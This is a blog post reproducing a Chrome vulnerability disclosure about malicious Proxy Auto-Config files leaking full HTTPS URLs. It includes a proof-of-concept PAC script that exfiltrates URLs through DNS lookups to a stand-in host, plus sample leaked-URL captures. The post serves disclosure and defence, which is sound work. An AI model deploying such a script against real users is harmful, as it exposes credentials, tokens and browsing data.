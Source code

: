 ```yaml
---
layout: post
title: Chrome - Proxy Auto-Config SSL/TLS Url Disclosure
category: bugreports
---
```


Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Chrome.

<!--more-->

*Original bug report can be viewed at [https://bugs.chromium.org/p/chromium/issues/detail?id=593759](https://bugs.chromium.org/p/chromium/issues/detail?id=593759)*

<pre class="bugreport">
Description:        Proxy Auto-Config SSL/TLS Url Disclosure
Versions Affected:  All Chrome versions on Windows
Category:           Information Disclosure
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Chrome. The PAC file specifies a Javascript function, FindProxyForURL(url, host), which is called for each URL request in order to determine the required proxy for the connection. This function receives the full URL and hostname for both HTTP and HTTPS requests, which can be leaked by a malicious PAC script. This could expose credentials, tokens, search terms or any other data passed in HTTPS URL query strings to internet based attackers that would otherwise be encrypted. On Windows systems, this issue can be exploited on a default Chrome installation.

It should be noted that this issue was also identified in Android, and has been reported separately to the Android team.

Analysis:
---------
The PAC file is executed in a limited, sandboxed Javascript environment, but some functions are still available (see http://findproxyforurl.com/pac-functions/), most notably dnsResolve. This allows for the full request URL from affected clients to be leaked to an attacker's DNS server or local network hosts via LLMNR.

Since Chrome defaults to using the Windows proxy settings, including configurations picked up from Web Proxy Auto-Discovery Protocol (WPAD) this issue can be exploited by both malicious gateways and attackers based on the local network (via WPAD injection attacks).

All software that implements the PAC specification as written is affected by this issue. We have confirmed this issue in a number of browsers and operating systems. Notably however, Internet Explorer does not leak full URLs, instead passing only the protocol and hostname to the 'url' parameter of FindProxyForURL (e.g. https://www.example.com/, not https://www.example.com/index.html?foo=bar). Therefore a possible fix for this issue is to follow this same behaviour.

Proof of Concept:
-----------------
A PAC script can be crafted, as below, which will perform a DNS lookup based on the host and url parameters passed into the function:

  function FindProxyForURL(url, host){{
    if (dnsResolve((url+'.example.com').replace(/[^a-z0-9_-]+/gi,'.')))
      return "DIRECT";
    return "DIRECT";
  }}

This will perform DNS lookups with the encoded URLs against the example.com DNS server.

See the following example DNS captures from HTTPS requests:

  https.www.google.co.uk.webhp.sourceid.chrome-instant.ion.1.espv.2.ie.UTF-8.example.com.
  https.consent.google.com.status.continue.https.www.google.co.uk.pc.s.timestamp.1457624486.example.com.
  https.www.google.co.uk.gen_204.atyp.i.ct.cad.vet.10ahUKEwj_iOuturbLAhXlNpoKHc21DBoQsmQIDg.s.ei.ppXhVv-dGuXt6ATN67LQAQ.zx.1457624490326.example.com.
  https.safebrowsing.google.com.safebrowsing.downloads.client.googlechrome.appver.48.0.2564.116.pver.3.0.key.AIzaSyBOti4mM-6x9WDnZIjIeyEU21OpBXqWBgw.ext.0.example.com.
</pre>
